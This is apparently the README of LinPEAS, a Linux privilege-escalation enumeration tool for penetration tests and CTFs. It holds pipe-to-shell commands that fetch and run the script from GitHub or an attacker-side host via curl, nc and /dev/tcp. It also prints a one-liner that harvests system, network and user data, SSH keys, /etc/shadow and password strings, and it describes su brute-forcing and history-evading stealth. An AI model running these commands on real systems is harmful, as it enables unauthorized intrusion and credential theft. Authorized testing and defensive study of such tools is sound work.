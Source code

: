# LinPEAS - Linux Privilege Escalation Awesome Script 

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that searh for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/279208)


## Quick Start
```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

```bash
#Local network
python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh

#Without curl
nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
```

**Use the parameter `-a` to execute all these checks.**

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD and OpenBSD).

This script doesn't have any dependency.

It uses **/bin/sh** sintax, so can run in anything supporting `sh` (and the binaries and parameters used).

By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**.

By default linpeas takes around **1 min** to complete, but It could take from **3 to 4 minutes** to execute all the checks using **-a** parameter *(Recommended option for CTFs)*:
- Less than 1 min to make almost all the checks
- Almost 1 min to search for possible passwords inside all the accesible files of the system
- 20s/user bruteforce with top2000 passwords *(need `-a`)* - Notice that this check is **super noisy**
- 1 min to monitor the processes in order to find very frequent cron jobs *(need `-a`)* - Notice that this check will need to **write** some info inside a file that will be deleted

**Other parameters:**
- **-a** (all checks) - This will **execute also the check of processes during 1 min, will search more possible hashes inside files, and brute-force each user using `su` with the top2000 passwords.**
- **-s** (superfast & stealth) - This will bypass some time consuming checks - **Stealth mode** (Nothing will be written to disk)

This script has **several lists** included inside of it to be able to **color the results** in order to highlight PE vector.

LinPEAS also **exports a new PATH** variable during the execution if common folders aren't present in the original PATH variable. It also **exports and unset** some environmental variables during the execution so no command executed during the session will be saved in the history file (you can avoid this actions using the parameter **-n**).

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/help.png)

## Hosts Discovery and Port Scanning

With LinPEAS you can also **discover hosts automatically** using `fping`, `ping` and/or `nc`, and **scan ports** using `nc`.

LinPEAS will **automatically search for this binaries** in `$PATH` and let you know if any of them is available. In that case you can use LinPEAS to hosts dicovery and/or port scanning.

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/network.png)


## Colors

<details>
<summary>Details</summary>

LinPEAS uses colors to indicate where does each section begin. But **it also uses them the identify potencial misconfigurations**.

The ![](https://placehold.it/15/b32400/000000?text=+) **Red/Yellow** ![](https://placehold.it/15/fff500/000000?text=+) color is used for identifing configurations that lead to PE (99% sure).

The ![](https://placehold.it/15/b32400/000000?text=+) **Red** color is used for identifing suspicious configurations that could lead to PE:
- Possible exploitable kernel versions
- Vulnerable sudo versions
- Identify processes running as root
- Not mounted devices
- Dangerous fstab permissions
- Writable files in interesting directories
- SUID/SGID binaries that have some vulnerable version (it also specifies the vulnerable version)
- SUDO binaries that can be used to escalate privileges in sudo -l (without passwd) (https://gtfobins.github.io/)
- Check /etc/doas.conf
- 127.0.0.1 in netstat
- Known files that could contain passwords
- Capabilities in interesting binaries
- Interesting capabilities of a binary
- Writable folders and wilcards inside info about cron jobs
- Writables folders in PATH
- Groups that could lead to root
- Files that could contains passwords
- Suspicious cronjobs

The ![](https://placehold.it/15/66ff33/000000?text=+) **Green** color is used for:
- Common processes run by root
- Common not interesting devices to mount
- Not dangerous fstab permissions
- SUID/SGID common binaries (the bin was already found in other machines and searchsploit doesn't identify any vulnerable version)
- Common .sh files in path
- Common names of users executing processes
- Common cronjobs

The ![](https://placehold.it/15/0066ff/000000?text=+) **Blue** color is used for:
- Users without shell
- Mounted devices

The ![](https://placehold.it/15/33ccff/000000?text=+) **Light Cyan** color is used for:
- Users with shell

The ![](https://placehold.it/15/bf80ff/000000?text=+) **Light Magenta** color is used for:
- Current username

</details>

## One liner

Here you have an old linpe version script in one line, **just copy and paste it**;)

**The color filtering is not available in the one-liner** (the lists are too big)

This one-liner is deprecated (I am not going to update it more), but it could be useful in some cases so it will remain here:

The default file where all the data is recorded is: */tmp/linPE* (you can change it at the beginning of the script)


```sh
file="/tmp/linPE";RED='\033[0;31m';Y='\033[0;33m';B='\033[0;34m';NC='\033[0m';rm -rf $file;echo "File: $file";echo "[+]Gathering system information...";printf $B"[*] "$RED"BASIC SYSTEM INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Operative system\n"$NC >> $file;(cat /proc/version || uname -a ) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"PATH\n"$NC >> $file;echo $PATH 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Date\n"$NC >> $file;date 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo version\n"$NC >> $file;sudo -V 2>/dev/null| grep "Sudo ver" >> $file;echo "" >> $file;printf $Y"[+] "$RED"selinux enabled?\n"$NC >> $file;sestatus 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Useful software?\n"$NC >> $file;which nc ncat netcat wget curl ping gcc make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Capabilities\n"$NC >> $file;getcap -r / 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Environment\n"$NC >> $file;(set || env) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Top and cleaned proccesses\n"$NC >> $file;ps aux 2>/dev/null | grep -v "\[" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Binary processes permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Services\n"$NC >> $file;(/usr/sbin/service --status-all || /sbin/chkconfig --list || /bin/rc-status) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Different processes executed during 1 min (HTB)\n"$NC >> $file;if [ "`ps -e --format cmd`" ]; then for i in {1..121}; do ps -e --format cmd >> $file.tmp1; sleep 0.5; done; sort $file.tmp1 | uniq | grep -v "\[" | sed '/^.\{500\}./d' >> $file; rm $file.tmp1; fi;echo "" >> $file;printf $Y"[+] "$RED"Proccesses binary permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Scheduled tasks\n"$NC >> $file;crontab -l 2>/dev/null >> $file;ls -al /etc/cron* 2>/dev/null >> $file;cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root /var/spool/anacron 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Any sd* disk in /dev?\n"$NC >> $file;ls /dev 2>/dev/null | grep -i "sd" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Storage information\n"$NC >> $file;df -h 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Unmounted file-system?\n"$NC >> $file;cat /etc/fstab 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Printer?\n"$NC >> $file;lpstat -a 2>/dev/null >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering network information...";printf $B"[*] "$RED"NETWORK INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Hostname, hosts and DNS\n"$NC >> $file;cat /etc/hostname /etc/hosts /etc/resolv.conf 2>/dev/null | grep -v "^#" >> $file;dnsdomainname 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Networks and neightbours\n"$NC >> $file;cat /etc/networks 2>/dev/null >> $file;(ifconfig || ip a) 2>/dev/null >> $file;iptables -L 2>/dev/null >> $file;ip n 2>/dev/null >> $file;route -n 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Ports\n"$NC >> $file;(netstat -punta || ss -t; ss -u) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Can I sniff with tcpdump?\n"$NC >> $file;timeout 1 tcpdump >> $file 2>&1;echo "" >> $file;echo "" >> $file;echo "[+]Gathering users information...";printf $B"[*] "$RED"USERS INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Me\n"$NC >> $file;(id || (whoami && groups)) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l without password\n"$NC >> $file;echo '' | sudo -S -l -k 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Do I have PGP keys?\n"$NC >> $file;gpg --list-keys 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Superusers\n"$NC >> $file;awk -F: '($3 == "0") {print}' /etc/passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Login\n"$NC >> $file;w 2>/dev/null >> $file;last 2>/dev/null | tail >> $file;echo "" >> $file;printf $Y"[+] "$RED"Users with console\n"$NC >> $file;cat /etc/passwd 2>/dev/null | grep "sh$" >> $file;echo "" >> $file;printf $Y"[+] "$RED"All users\n"$NC >> $file;cat /etc/passwd 2>/dev/null | cut -d: -f1 >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering files information...";printf $B"[*] "$RED"INTERESTING FILES\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"SUID\n"$NC >> $file;find / -perm -4000 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"SGID\n"$NC >> $file;find / -perm -g=s -type f 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside \$HOME (limit 20)\n"$NC >> $file;ls -la $HOME 2>/dev/null | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"20 First files of /home\n"$NC >> $file;find /home -type f 2>/dev/null | column -t | grep -v -i "/"$USER | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside .ssh directory?\n"$NC >> $file;find  /home /root -name .ssh 2>/dev/null -exec ls -laR {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"*sa_key* files\n"$NC >> $file;find / -type f -name "*sa_key*" -ls 2>/dev/null -exec ls -l {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"Mails?\n"$NC >> $file;ls -alh /var/mail/ /var/spool/mail/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"NFS exports?\n"$NC >> $file;cat /etc/exports 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Hashes inside /etc/passwd? Readable /etc/shadow or /etc/master.passwd?\n"$NC >> $file;grep -v '^[^:]*:[x]' /etc/passwd 2>/dev/null >> $file;cat /etc/shadow /etc/master.passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Readable /root?\n"$NC >> $file;ls -ahl /root/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Inside docker or lxc?\n"$NC >> $file;dockercontainer=`grep -i docker /proc/self/cgroup  2>/dev/null; find / -name "*dockerenv*" -exec ls -la {} \; 2>/dev/null`;lxccontainer=`grep -qa container=lxc /proc/1/environ 2>/dev/null`;if [ "$dockercontainer" ]; then echo "Looks like we're in a Docker container" >> $file; fi;if [ "$lxccontainer" ]; then echo "Looks like we're in a LXC container" >> $file; fi;echo "" >> $file;printf $Y"[+] "$RED"*_history, profile, bashrc, httpd.conf\n"$NC >> $file;find / -type f \( -name "*_history" -o -name "profile" -o -name "*bashrc" -o -name "httpd.conf" \) -exec ls -l {} \; 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"All hidden files (not in /sys/) (limit 100)\n"$NC >> $file;find / -type f -iname ".*" -ls 2>/dev/null | grep -v "/sys/" | head -n 100 >> $file;echo "" >> $file;printf $Y"[+] "$RED"What inside /tmp, /var/tmp, /var/backups\n"$NC >> $file;ls -a /tmp /var/tmp /var/backups 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Interesting writable Files\n"$NC >> $file;USER=`whoami`;HOME=/home/$USER;find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'| sort | uniq >> $file;for g in `groups`; do find / \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'; done >> $file;echo "" >> $file;printf $Y"[+] "$RED"Web files?(output limited)\n"$NC >> $file;ls -alhR /var/www/ 2>/dev/null | head >> $file;ls -alhR /srv/www/htdocs/ 2>/dev/null | head >> $file;ls -alhR /usr/local/www/apache22/data/ 2>/dev/null | head >> $file;ls -alhR /opt/lampp/htdocs/ 2>/dev/null | head >> $file;echo "" >> $file;printf $Y"[+] "$RED"Backup files?\n"$NC >> $file;find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*back*" -o -name "*bck*" \) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find IPs inside logs\n"$NC >> $file;grep -a -R -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' /var/log/ 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find 'password' or 'passw' string inside /home, /var/www, /var/log, /etc\n"$NC >> $file;grep -lRi "password\|passw" /home /var/www /var/log 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l (you need to puts the password and the result appear in console)\n"$NC >> $file;sudo -l;
```
## What does linpeas look for
<details>
  <summary>Details</summary>
  
- **System Information**
  - [x] SO & kernel version 
  - [x] Sudo version
  - [x] PATH
  - [x] Date
  - [x] System stats
  - [x] Environment vars
  - [x] SElinux
  - [x] Printers
  - [x] Dmesg (signature verifications)
  - [x] Container?

- **Devices**
  - [x] sd* in /dev
  - [x] Unmounted filesystems

- **Available Software**
  - [x] Useful software
  - [x] Installed compilers

- **Processes & Cron & Services**
  - [x] Cleaned processes
  - [x] Binary processes permissions
  - [x] Different processes executed during 1 min
  - [x] Cron jobs
  - [x] Services

- **Network Information**
  - [x] Hostname, hosts & dns
  - [x] Content of /etc/inetd.conf
  - [x] Networks and neighbours
  - [x] Iptables rules
  - [x] Active ports
  - [x] Sniff permissions (tcpdump)

- **Users Information**
  - [x] Info about current user
  - [x] PGP keys
  - [x] `sudo -l` without password
  - [x] doas config file
  - [x] Pkexec policy
  - [x] Try to login using `su` as other users (using as passwords: null pass, username, reverse username, and top2000pwds)
  - [x] List of superusers
  - [x] List of users with console
  - [x] Login info (now, last logons, last time each user)
  - [x] List of all users
  - [x] Clipboard and highlighted text
  - [x] Password policy

- **Software Information**
  - [x] MySQl (Version, user being configured, loging as "root:root","root:toor","root:", user hashes extraction via DB and file, possible backup user configured, credentials in config, cmd exec library)
  - [x] PostgreSQL (Version, try login in "template0" and "template1" as: "postgres:", "psql:", file DBs, Config)
  - [x] Apache (Version)
  - [x] PHP cookies
  - [x] Wordpress (Database credentials)
  - [x] Tomcat (Credentials)
  - [x] Mongo (Version, Credentials)
  - [x] Supervisor (Credentials)
  - [x] Cesi (Credentials)
  - [x] Rsyncd (Credentials)
  - [x] Hostapd (Credentials)
  - [x] Wifi (Credentials)
  - [x] Anaconda-ks (Credentials)
  - [x] VNC (Credentials)
  - [x] LDAP database (Credentials)
  - [x] Open VPN files (Credentials)
  - [x] SSH (private keys, known_hosts, authorized_hosts, authorized_keys, main config parameters in sshd_config, certificates, agents)
  - [X] PAM-SSH (Unexpected "auth" values)
  - [x] Cloud Credentials (credenals-AWS-, credentials.gb-GC-, legacy_credentials-GC-, access_tokens.db-GC-, accessTokens.json-Azure-, azureProfile.json-Azure-)
  - [x] NFS (privilege escalation misconfiguration)
  - [x] Kerberos (configuration & tickets in /tmp)
  - [x] Kibana (credentials)
  - [x] Logstash (Username and possible code execution)
  - [x] Elasticseach (Config info and Version via port 9200)
  - [x] Vault-ssh (Config values, secrets list and .vault-token files)
  - [x] screen and tmux sessions
  - [x] Couchdb
  - [x] Redis
  - [x] Dovecot
  - [x] Mosquitto
  - [x] Neo4j


- **Generic Interesting Files**
  - [x] SUID & SGID files
  - [x] Capabilities
  - [x] Users with capabilities
  - [x] .sh scripts in PATH
  - [x] scripts in /etc/profile.d
  - [x] Hashes (passwd, shadow & master.passwd)
  - [x] Credentials in fstab
  - [x] Try to read root dir
  - [x] Files owned by root inside /home
  - [x] List of readable files belonging to root and not world readable
  - [x] Others files inside a folder owned by the current user
  - [x] Reduced list of files inside my home and /home
  - [x] Mail applications
  - [x] Mails
  - [x] Backup files
  - [x] DB files
  - [x] Web files
  - [x] Files that can contain passwords (and search for passwords inside *_history files)
  - [x] List of all hidden files
  - [x] List ALL writable files for current user (global, user and groups)
  - [x] Inside /tmp, /var/tmp and /var/backups
  - [x] Password ins config PHP files
  - [x] Get IPs, passwords and emails from logs
  - [x] password or credential files in home
  - [x] "pwd" and "passw" inside files (and get most probable lines)
  - [x] Specific hashes (blowfish, joomla&vbulletin, phpbb3, wp, drupal, linuxmd5, apr1md5, sha512crypt, apachesha)
  - [x] Generic hashes MD5, SHA1, SHA256, SHA512
</details>

## Let's improve PEASS together

If you want to **add something** and have **any cool idea** related to this project, please let me know it in the **telegram group https://t.me/peass** or using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)** and we will update the master version.

## Please, if this tool has been useful for you consider to donate

[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=DED2HWDYLFT2C&source=url)

## Looking for a useful Privilege Escalation Course?

Contact me and ask about the **Privilege Escalation Course** I am preparing for attackers and defenders (**100% technical**).

## TODO

- Add more checks
- Mantain updated the list of vulnerable SUID binaries
- Mantain updated all the blacklists used to color the output
- Support for MacOS

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues) or you can submit a pull request**.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)**.


**Linpeas** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

## License

MIT License

By Polop<sup>(TM)</sup>
